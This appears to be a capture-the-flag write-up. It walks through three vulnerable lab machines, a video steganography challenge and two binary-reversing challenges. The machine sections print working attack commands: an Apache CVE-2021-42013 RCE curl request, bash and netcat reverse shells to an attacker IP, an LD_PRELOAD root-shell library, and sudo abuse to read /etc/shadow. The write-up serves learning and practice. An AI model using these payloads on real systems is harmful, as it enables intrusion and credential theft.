# Table of Contents

1. [Vulnerable VMs](#vulnerable-vms)
   - [VULNBOX VM](#vulnbox-vm)
   - [CORPNET VM](#corpnet-vm)
   - [IMAGERY VM](#imagery-vm)
2. [FORENSICS](#forensics)
   - [TOP SECRET](#top-secret)
3. [REVERSE](#reverse)
   - [BUTTERFINGERS](#butterfingers)
   - [PATCH ME UP](#patch-me-up)
---


# VULNERABLE MACHINES

## VULNBOX VM 

###  Step 1: Discovering the Target

To begin, I scanned the local network to identify active hosts using `arp-scan`:

```bash
sudo arp-scan --local
```



-  **Target IP Identified:** `192.168.112.115`
    

---

###  Step 2: Port Scanning

With the target IP in hand, I scanned it using Nmap to discover open ports and services:

```bash
nmap 192.168.112.115
```



The scan revealed two open ports:

- **Port 22** – SSH
    
- **Port 80** – HTTP
    

I ran another scan to confirm service details:



- Port 80 is running **Apache HTTPD**
    
- Port 22 is running **OpenSSH**
    

---

###  Step 3: Web Enumeration

Navigated to the web interface at `http://192.168.112.115`:



Unfortunately, there wasn’t much to see. To dig deeper, I ran a directory brute-force scan.



-  No interesting directories or files were discovered.
    

---

###  Step 4: Exploiting Apache (CVE-2021-42013)

Suspecting a vulnerable Apache version, I searched for related exploits and found **[CVE-2021-42013](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013#about-cve-2021-42013)** — a known **path traversal + RCE** vulnerability.



I tested for Local File Inclusion (LFI), which worked, and then moved to Remote Code Execution using [this exploit](https://github.com/sergiovks/LFI-RCE-Unauthenticated-Apache-2.4.49-2.4.50/blob/main/exploit.py):



Verified RCE with the following `curl` command:

```bash
curl -X POST http://192.168.112.115/cgi-bin/%%32%65%%32%65/.../bin/sh \
  -d 'echo Content-Type: text/plain; echo; id'
```

-  Success! Remote code was executed as the `daemon` user.
    

---

###  Step 5: Reverse Shell Access

Next, I prepared a reverse shell payload:

**`bashshell.sh`**

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.112.156/1111 0>&1
```

I hosted the script on my machine and transferred it to the target:

  


After triggering the reverse shell:



-  Shell received on my listener!


---

###  Step 6: Privilege Escalation to User

While exploring the system, I found a suspicious script named `tmp.sh` in the root directory:



Interestingly, this file was:

- Globally writable 
    
- Being executed every 10 seconds by user `samsingh` 
    



I replaced the contents of `tmp.sh` with another reverse shell:



Soon after, I caught a shell running as `samsingh`:



With this new access, I grabbed the `user.txt` flag and added my SSH public key for stable access:



---

###  Step 7: Root Privilege Escalation

Now connected as `samsingh` via SSH:



Checking `sudo -l`, I found that `python3` could be run as **root without a password**:



I used the following command to spawn a root shell:

```bash
sudo python3 -c 'import os; os.system("/bin/bash")'
```



 **Root access achieved!**


---

## IMAGERY VM

### Step 1: Reconnaissance – Discovering the Target

We begin by scanning the local network to identify available hosts using:

```bash
sudo arp-scan --local
```



This reveals the target machine with IP: **192.168.112.178**

---

### Step 2: Port Scanning – Identifying Open Services

We run an initial scan to see open ports:

```bash
nmap 192.168.112.178
```



Ports **22 (SSH)** and **80 (HTTP)** are open.

To get more detailed info, we run:

```bash
nmap 192.168.112.178 -p22,80 -sCV
```



Apache is running on port 80, but nothing interesting shows up here.

---

### Step 3: Gaining Foothold – Web Exploitation

We visit the web page and notice suspicious behavior in form input handling:



The input field has a 32-character limit, but it's enforced only on the client side. We can bypass this restriction easily using browser developer tools.

This behavior hints at a potential command injection vulnerability. To test it, we inject a reverse shell command:

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.112.156/1234 <&1'
```


This connects back to our listener and gives us a shell:



Exploring one level down in the directory tree, we find a password file. After downloading it, we use [CrackStation](https://crackstation.net) to successfully crack the password:






---

### Step 4: Privilege Escalation – User Access

Using the cracked password, we SSH into the system as user **pumba**:



---

### Step 5: Root Access – Advanced Privilege Escalation

We check sudo permissions:



Here we find a twist — the command has `env=LD_PRELOAD`, meaning we can inject a shared library into a process.

> **LD_PRELOAD** is an environment variable in Unix-like systems that allows you to load a custom shared library before others. It's often used for hooking or overriding functions at runtime.

We write a malicious shared object to spawn a root shell:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void spawn_shell() {
    setuid(0);
    system("/bin/bash");
}
```

Compile it:

```bash
gcc -shared -fPIC -o /tmp/shell.so shell.c
```

We then execute a binary (like `ls`) using sudo with `LD_PRELOAD` to trigger our payload:

```bash
sudo LD_PRELOAD=/tmp/shell.so ls
```



And just like that — we're root. 🏴‍☠️

---


## CORPNET VM

###  Step 1: Reconnaissance – Identifying the Target

We start by scanning the local network to identify live hosts using `arp-scan`:

```bash
sudo arp-scan --local
```



This reveals our target machine with the IP: **192.168.112.232**

---

###  Step 2: Port Scanning – What’s Open?

A quick port scan using `nmap` shows which services are running:

```bash
nmap 192.168.112.232
```



We see that **ports 22 (SSH)** and **80 (HTTP)** are open.

Now, let's do a deeper service and version scan on these ports:

```bash
nmap 192.168.112.232 -p22,80 -sCV
```



This reveals:

- **Port 80** is running Apache (suggesting a web server is hosted)
    
- **Port 22** is running OpenSSH
    

---

###  Step 3: Web Exploitation – Gaining Foothold

Navigating to the website reveals a form input vulnerable to **command injection**. By injecting a command like:

```bash
;busybox nc 192.168.112.156 9999 -c sh
```



We trigger a reverse shell connection to our attacker machine. Boom — we get a shell back as **www-data**, the web server user.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
to stabilize the shell session for better interactivity and command execution




---

###  Step 4: File Looting – Extracting User Data

While poking around the web server, we find a file named `users.db`. We host a Python web server on our attacker machine to download the file:

```bash
python3 -m http.server
```


Once downloaded, we analyze the contents — it contains **SHA256crypt** hashed passwords.



We crack the hash using an online cracking tool (`hash.traboda.net`) and recover:

> **Cracked password:** `secretpass123`


---

### Step 5: Lateral Movement – Switching Users

We try the cracked password with an existing user and successfully log in as **devuser** via SSH.



---

##  Step 6: Privilege Escalation – Getting Root

Now logged in as `devuser`, we check for potential privilege escalation paths using:

```bash
sudo -l
```

> 🔎 `sudo -l` lists all the commands the current user can run using `sudo`. This helps identify any scripts or binaries the user can execute as root without a password.



We find:

```bash
User devuser may run the following commands on corpnet:
  (ALL) NOPASSWD: /usr/local/bin/backup.sh
```

This means `devuser` can run the script `/usr/local/bin/backup.sh` as **root**, without needing a password.

---

#### Analyzing `backup.sh`

```bash
#!/bin/bash
# Usage: ./backup.sh <filename>

if [ $# -eq 0 ]; then
  echo "Please provide a filename to backup"
  exit 1
fi

BACKUP_FILE="/tmp/backup_$(date +%F_%T)"
cp "$1" "$BACKUP_FILE"
chown devuser:devuser "$BACKUP_FILE"
chmod 644 "$BACKUP_FILE"
```

This script blindly copies any file passed to it, as **root**, and then changes the ownership to `devuser`, effectively allowing access to protected files.

####  Exploiting It

We can use this to read sensitive root-only files. For example:

```bash
sudo /usr/local/bin/backup.sh /etc/shadow
```



This copies `/etc/shadow` to a readable file in `/tmp`. From there, we attempt to crack the root password — but the cracking failed.

---

### 🏁 Capturing the Flag

Instead of cracking the root password, we go for the flag directly:

```bash
sudo /usr/local/bin/backup.sh /root/flag.txt
```



We then read the file:

```bash
cat /tmp/backup_2025-05-07_22:02:04
```



🎉 Flag captured!

---


# FORENSICS

## TOP SECRET

So, I got this **mp4 file** called `TOP_SECRET.mp4`. The description was like:  
_"Like finding a needle in a haystack."_

What a classic, right? 😅

---

### Step 1: Let's Dig In

I decided to try out this tool called [**videostego**](https://github.com/JavDomGom/videostego) to see if it could reveal anything hidden inside the file:

```bash
videostego -f TOP_SECRET.mp4 -r
```

And boom! The file had something that looked like **Base64** encoded data.



### Step 2: Time to Decode

Okay, this was getting fun! So I took that Base64 string and ran it through the decoder:

```bash
echo ZmxhZ3t0MHBfNTNjcjN0X2MwZDNfaDQ1X2IzM25fNXQwbDNufQ | base64 -d
```

And guess what? 💥

I got the flag!

```
flag{t0p_53cr3t_c0d3_h45_b33n_5t0l3n}
```

---

# REVERSE

## BUTTERFINGERS

**Challenge Description:**

> I'm a silly little goober haha I keep dropping stuff around. See if you can pick it up and make sense of it.


### System Info

Before we poke at the mysterious binary, let's scope out where we're working.

```bash
$ lscpu
Architecture:            x86_64
CPU op-mode(s):          32-bit, 64-bit
Address sizes:           48 bits physical, 48 bits virtual
Byte Order:              Little Endian
Vendor ID:               AuthenticAMD
Model name:              AMD Ryzen 5 5500U with Radeon Graphics
```

```bash
$ uname -a
Linux Apollo 5.15.146.1-microsoft-standard-WSL2 #1 SMP Thu Jan 11 04:09:03 UTC 2024 x86_64 GNU/Linux
```

This shows we are on a 64-bit AMD processor under WSL2 (Windows Subsystem for Linux), which can affect how certain binaries behave (e.g., `ptrace` or anti-debugging might act differently).

---

### Step 1: Initial Binary Analysis

```bash
file butterfingers
```


#### ELF Header Breakdown

This file is an **ELF (Executable and Linkable Format)** binary. Let’s examine the ELF header fields:

|Offset|Name|Description|
|---|---|---|
|0x00–0x03|`EI_MAG0` to `EI_MAG3`|First four bytes of every ELF file, expected to be ASCII for `'E'`, `'L'`, `'F'`|
|0x04|`EI_CLASS`|Architecture class: 0x01 = 32-bit, 0x02 = 64-bit|
|0x05|`EI_DATA`|Endianness: 0x01 = Little Endian, 0x02 = Big Endian|
|0x06|`EI_VERSION`|ELF version (usually 0x01)|
|0x07|`EI_OSABI`|OS ABI: 0x00 = System V, 0x03 = Linux. Meaning varies based on ABI interpretation|

Reference: [k3170makan blog - ELF Header Intro](https://blog.k3170makan.com/2018/09/introduction-to-elf-format-elf-header.html)

---

#### Header Anomalies

- **32-bit MSB**: Indicates it's 32-bit and **Big Endian**.
    
- **Arch 0x3e00**: Uncommon/malformed. Normally `0x03` (x86) or `0x3e` (x86_64).
    
- **HP-UX**: Unusual for a Linux system, likely a red herring or obfuscation.


#### Fixing the Binary

To correct the malformed binary:

- Change `EI_CLASS` (byte at offset `0x04`) from `0x01` (32-bit) → `0x02` (64-bit)
    
- Change `EI_DATA` (byte at offset `0x05`) from `0x02` (Big Endian) → `0x01` (Little Endian)


This realigns the binary with a proper 64-bit little-endian ELF structure.

```bash
file butterfingers_patched
```



Now it's ready for analysis.

---

### Step 2: Reverse Engineering in Ghidra

We load `butterfingers_patched` into **Ghidra** and examine the `main` function:

```c
if (argc == 2) {
    uVar1 = strtoull(argv[1], NULL, 10);
    lVar2 = (long)is_debugged;

    local_78[] = { 92, 0x1d, 0x17c, 2, 0x1f1, 0x128 }; // 92, 29, 380, 2, 497, 296
    local_58[] = { 0x7b, 0x1c8, 0x315, 0x3db, 0x28e, 0x141 }; // 123, 456, 789, 987, 654, 321

    for (i = 0; i < 6; i++) {
        if ((key + debug_offset) % local_58[i] != local_78[i]) {
            puts("Nope");
            goto end;
        }
    }

    decoded_buf = malloc(0xf0dc); // buffer for shellcode
    for (i = 0; i < 0x3c37; i++) {
        decoded_buf[i] = original_data[i] ^ (key + debug_offset);
    }

    // Save to file
    FILE *fp = fopen("slippery_shellcode", "wb");
    fwrite(decoded_buf, 0x3c37, 1, fp);
    fclose(fp);
    free(decoded_buf);
}
```

#### What’s Happening Here:

1. **User provides a key** as a command-line argument.
    
2. This key is converted to an integer (`strtoull`) and stored in `key`.
    
3. There’s a `debug_offset` (possibly from an `is_debugged` function).
    
4. The sum `key + debug_offset` must satisfy a series of modular equations:
    
    - `(key + debug_offset) % 123 == 92`
        
    - `(key + debug_offset) % 456 == 29`
        
    - `(key + debug_offset) % 789 == 380`
        
    - `(key + debug_offset) % 987 == 2`
        
    - `(key + debug_offset) % 654 == 497`
        
    - `(key + debug_offset) % 321 == 296`
        
5. If these congruences pass, the program allocates memory and XOR-decodes a blob of data (`original_data`) using the same key+offset value.
    
6. The result is written to a file called `slippery_shellcode`.
    

In short: give it the right key → solve some math → get shellcode.


---

### Step 3: Solving the Modular System (CRT)

The program checks whether `(key + offset) % local_58[i] == local_78[i]` for `i` from 0 to 5.

So we solve:

```
(key + offset) % 123 = 92
(key + offset) % 456 = 29
(key + offset) % 789 = 380
(key + offset) % 987 = 2
(key + offset) % 654 = 497
(key + offset) % 321 = 296
```

Assuming `offset = 0`, we solve using **Chinese Remainder Theorem**:

```python
from sympy.ntheory.modular import solve_congruence

congruences = [
    (92, 123),
    (29, 456),
    (380, 789),
    (2, 987),
    (497, 654),
    (296, 321)
]

solution = solve_congruence(*congruences)
print("Key =", solution[0])
```

This gives us the correct key to decrypt the blob.

---

### Step 4: Reverse Engineering `slippery_shellcode`

After running the binary with the valid key, it drops a new file: `slippery_shellcode`. Let’s dive into this one too!

Opening it in Ghidra, we find the following logic inside the `FUN_00101139` function:

```c
if (argc > 1) {
    char* buf = *(long *)(argv + 8);

    for (int i = 0; buf[i] != '\0'; i++) {
        buf[i] = buf[i] ^ (i % 5);

        if (buf[i] != DAT_00102008[i]) {
            puts("[!] Failed!");
            return 1;
        }
    }

    puts("[+] Success!");
}
```

Essentially, the input is XORed using `(i % 5)` and then compared byte-by-byte with an expected encoded string `DAT_00102008` . 

```c
DAT_00102008 = "tig\\verwop_nd\\wpdggvuoljjg^c\\gh`noanfg\\ms^c\\frnifj_bjbhldlda}"
```

This means our goal is to **reverse the XOR operation** and retrieve the original input that would pass this check.

---

### Step 5: Decoding the Data

Let’s write a script that reverses the XOR logic and reveals the actual flag:

```python
encoded = list(b"tig\\verwop_nd\\wpdggvuoljjg^c\\gh`noanfg\\ms^c\\frnifj_bjbhldlda}")

decoded = []
for i, c in enumerate(encoded):
    decoded_char = chr(c ^ (i % 5))
    decoded.append(decoded_char)

result = ''.join(decoded)
print("Decoded string:", result)
```

#### Output:

```
flag{the_result_of_speedrunning_a_challenge_is_a_broken_challenge}
```

🎉 Boom! There’s our flag — looks like someone speedran the challenge creation a little too hard 😅

---

## Patch Me Up

**Challenge Description**

> **"Side to side"**

 We're given a binary named `patches`. The challenge hint, _"Side to side"_, suggests lateral movement , maybe referring to how bits are processed or verified. Our mission? Reverse it, understand how it works, and patch together the right input.

---

###  Step 1: Reversing the Binary

We began by decompiling the `main` function, which revealed the program's core behavior. Below is a cleaned-up version for clarity:

```c
int main() {
    char input[36];
    uint8_t *bit_array = calloc(0x120, 1);  // 288 bits

    scanf("%35s", input);

    for (int i = 0; i < 36; i++) {
        for (int b = 0; b < 8; b++) {
            bit_array[i * 8 + (7 - b)] = (input[i] >> b) & 1;
        }
    }

    validate_bits(bit_array);
    return 0;
}
```

#### 🤓 So what’s going on here?

- The input is read as 36 characters.
    
- Each character is unpacked into individual bits, from most significant bit (MSB) to least significant bit (LSB), filling a 288-bit array (`bit_array`).
    
- This array is passed into a series of validation functions that check the correctness of each bit.

---

### Step 2: Understanding Validation Logic

Each function checks exactly one bit in the `bit_array`, for example:

```c
FUN_00105d4b:
  if (param_1[0] == 0x00) → call next
  else → "Not correct at 0!"

FUN_00105d08:
  if (param_1[1] == 0x01) → call next
  else → "Not correct at 1!"

... and so on ...
```

- Each function checks one bit at a specific index.
    
- If the bit is wrong, the program outputs which bit is incorrect (e.g., "Not correct at 0!").
  
This pattern continues for all 288 bits.

> **This feedback is critical** because it allows us to methodically fix each incorrect bit. The program leaks which bit is wrong, making the process predictable and ripe for automation.

---

### Step 3: Automating the Bit Search

#### Thought Process:

- We start with all bits set to `1`.
    
- On each execution, the program checks each bit and tells us if a bit is incorrect (e.g., `"Not correct at 265!"`).
    
- We flip the reported bit to `0`.
    
- Repeat until we receive the message `"You win!"`.


> This approach lets us home in on the correct bit pattern with surgical precision.

####  Script Used

```python
from pwn import process
t = ["1"] * (0x24 * 8)

while True:
    sock = process("./patches")
    sock.sendline(int("".join(t), 2).to_bytes(0x24))
    y = sock.recvline().decode()
    
    if "You win" in y:
        break
    
    y = int(y.split("Not correct at ")[1].split("!")[0])
    print(y)
    t[y] = "0"
    sock.kill()
    print(int("".join(t), 2).to_bytes(0x24))

print(int("".join(t), 2).to_bytes(0x24))
```

#### Runtime Issue Encountered

The bit-flipping automation worked well until around bit index 268, where things started to break. While the output bytes were shaping up into a readable flag, some values near the end started returning garbage like `ÿ`, for example:

```
265
b'flag{0n3_sHa11_stand_0ne_shall_Ba?ÿÿ'
268
b'flag{0n3_sHa11_stand_0ne_shall_Ba7ÿÿ'
```

Eventually, the script hit an `EOFError`—the binary exited early due to malformed input. This told us that blindly flipping bits to 0 wasn't working anymore, especially for the last few characters where valid ASCII mattered.

To wrap things up, we moved to a simple brute-force approach for the final few bytes.

---

### Step 4: Brute-forcing the Remaining Characters

To finalize the flag, we manually brute-forced the last two unknown characters:

```python
from pwn import *
t = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWZXYZ1234567890"
context.log_level = "error"

for i in t:
    for j in t:
        sock = process("./patches")
        payload = b"flag{0n3_sHa11_stand_0ne_shall_Ba" + i.encode() + j.encode() + b"}"
        sock.sendline(payload)
        if b"win" in sock.recvall():
            print(payload)
        sock.kill()
```

#### Result

This brute-force yielded the final valid input:

```
flag{0n3_sHa11_stand_0ne_shall_Ba11}
```
🎉 Boom! We Got it Completely !!

---